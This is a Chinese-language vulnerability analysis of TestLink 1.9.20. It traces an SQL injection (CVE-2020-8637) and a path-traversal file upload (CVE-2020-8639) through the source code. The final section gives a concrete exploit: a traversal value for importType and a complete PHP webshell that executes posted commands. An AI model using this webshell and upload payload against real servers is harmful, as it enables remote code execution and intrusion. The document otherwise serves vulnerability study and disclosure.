 # 漏洞实现方案

## SQL注入漏洞(CVE-2020-8637)

在TestLink的[dragdroptreenodes.php]( https://github.com/TestLinkOpenSourceTRMS/testlink-code/blob/1.9.20/lib/ajax/dragdroptreenodes.php )代码

```php
function init_args()
{
  $args=new stdClass();
  $key2loop=array('nodeid','newparentid','doAction','top_or_bottom','nodeorder','nodelist');
  foreach($key2loop as $key)
  {
    $args->$key=isset($_REQUEST[$key]) ? $_REQUEST[$key] : null;
  }
  return $args;
}
```

 `nodeid`从中检索用户输入`$_REQUEST`并将其存储在中`$args->nodeid`。`change_parent`然后调用该方法： 

```php
$args=init_args();
$treeMgr = new tree($db);
switch($args->doAction)
{
    case 'changeParent':
        $treeMgr->change_parent($args->nodeid,$args->newparentid);
    break;
```

 方法定义在[tree.class.php中](https://github.com/TestLinkOpenSourceTRMS/testlink-code/blob/1.9.20/lib/functions/tree.class.php) 

```php
function change_parent($node_id, $parent_id)
  {
    $debugMsg='Class:' .__CLASS__ . ' - Method:' . __FUNCTION__ . ' :: ';
    if( is_array($node_id) )
    {
      $id_list = implode(",",$node_id);
      $where_clause = " WHERE id IN ($id_list) ";
    }
    else
    {
      $where_clause=" WHERE id = {$node_id}";
    }
    $sql = "/* $debugMsg */ UPDATE {$this->object_table} " .
           " SET parent_id = " . $this->db->prepare_int($parent_id) . " {$where_clause}";
    $result = $this->db->exec_query($sql);
    return $result ? 1 : 0;
  }
```

 正如您在源代码中看到的那样，`$node_id`串联在`WHERE`SQL语句的中，从而可以操纵`SQL`语法。 

## 文件上传漏洞(CVE-2020-8639)

` Teslink`提供了使用关键字对测试案例进行分类的可能性。这些关键字可以导出和导入，在此操作中，我们发现了第一个漏洞 

允许我们上传一个包含关键字的文件，通过选择，`File type`我们可以在XML或`CSV`格式之间进行选择。现在让我们来看一下[关键字](https://github.com/TestLinkOpenSourceTRMS/testlink-code/blob/1.9.20/lib/keywords/keywordsImport.php)` keywordImport.php`中`init_args`方法的实现。 

```php
function init_args(&$dbHandler)
{
  $_REQUEST = strings_stripSlashes($_REQUEST);
  $ipcfg = array("UploadFile" => array(tlInputParameter::STRING_N,0,1),
                 "importType" => array(tlInputParameter::STRING_N,0,100),
                 "tproject_id" => array(tlInputParameter::INT_N));
  $args = new stdClass();
  R_PARAMS($ipcfg,$args);
  if( $args->tproject_id <= 0 )
  {
    throw new Exception(" Error Invalid Test Project ID", 1);
  }
  // Check rights before doing anything else
  // Abort if rights are not enough
  $user = $_SESSION['currentUser'];
  $env['tproject_id'] = $args->tproject_id;
  $env['tplan_id'] = 0;
  $check = new stdClass();
  $check->items = array('mgt_modify_key');
  $check->mode = 'and';
  checkAccess($dbHandler,$user,$env,$check);
  $tproj_mgr = new testproject($dbHandler);
  $dm = $tproj_mgr->get_by_id($args->tproject_id,array('output' => 'name'));
  $args->tproject_name = $dm['name'];
  $args->UploadFile = ($args->UploadFile != "") ? 1 : 0;
  $args->fInfo = isset($_FILES['uploadedFile']) ? $_FILES['uploadedFile'] : null;
  $args->source = isset($args->fInfo['tmp_name']) ? $args->fInfo['tmp_name'] : null;
  $args->dest = TL_TEMP_PATH . session_id() . "-importkeywords." . $args->importType;
  return $args;
}
```

首先，[strings_stripSlashes](https://github.com/TestLinkOpenSourceTRMS/testlink-code/blob/2f6a6f4dd0cd500258f0f4ddf0eeb3fd93714433/lib/functions/common.php#L547)方法(在`testlink-code/lib/functions/common.php`的第547~577 )取消引用所有引用的字符串值`$_REQUEST`。

```php
function strings_stripSlashes($parameter,$bGPC = true)
{
  if ($bGPC && !ini_get('magic_quotes_gpc'))
  { 
    return $parameter;
  }

  if (is_array($parameter))
  {
    $retParameter = null;
    if (sizeof($parameter))
    {
      foreach($parameter as $key=>$value)
      {
        if (is_array($value))
        {  
          $retParameter[$key] = strings_stripSlashes($value,$bGPC);
        }
        else
        {  
          $retParameter[$key] = stripslashes($value);
        }  
      }
    }
    return $retParameter;
  }
  else
  {  
    return stripslashes($parameter);
  }  
}
```



然后使用[R_PARAMS](https://github.com/TestLinkOpenSourceTRMS/testlink-code/blob/2f6a6f4dd0cd500258f0f4ddf0eeb3fd93714433/lib/functions/inputparameter.inc.php#L99)(testlink-code/lib/functions/inputparameter.inc.php第99~102行 )方法`$ipcfg`从中检索定义的参数，`REQUEST`并将其存储在中`$args`。

```php
function R_PARAMS($paramInfo,&$args = null)
{
	return GPR_PARAMS("REQUEST",$paramInfo,$args);
}
```

第114~121行

```php
function GPR_PARAMS($source,$paramInfo,&$args = null)
{
	foreach($paramInfo as $pName => &$info)
	{
		array_unshift($info,$source);
	}
	return I_PARAMS($paramInfo,$args);
}
```



上传的文件存储在中`$args->source`，的值`$args->importType`连接在中`$args->dest`。没有什么可以阻止我们更改`importType` 的值为`/../../any/folder/we/want`。换句话说，此参数容易受到路径遍历的影响。

现在让我们看看在哪里`$args->dest`使用：

```php
$args = init_args($db);
$gui = initializeGui($args);
if(!$gui->msg && $args->UploadFile)
{
  if(($args->source != 'none') && ($args->source != ''))
  {
    if (move_uploaded_file($args->source, $args->dest))
```

 它在[move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php)中使用，因此我们可以随意修改文件上传的地址，可以在服务器的任何目录中上传文件。 

### 文件上传漏洞利用

利用此漏洞的一种方法是上传一个`Webshell`，以在部署`Testlink`的服务器上进行远程代码执行。为此，我们需要在运行`Testlink`的系统用户具有写权限的服务器上找到一个路径（例如，/ logs）。

`importType`字段的值修改为`/../../../logs/ws.php`，我们需要`uploadedFile`在`PHP` 的变量中传递`webshell`的代码。例如:

```php
<html>
    <body>
        <form method="POST">
            <input name="command" id="command" />
            <input type="submit" value="Send" />
        </form>
        <pre>
            <?php if(isset($_POST['command']))
        {
            system($_POST['command']);
        } ?>
        </pre>
    </body>
</html>
```

通过访问`http://your-ip:port/logs/ws.php`实现远程代码执行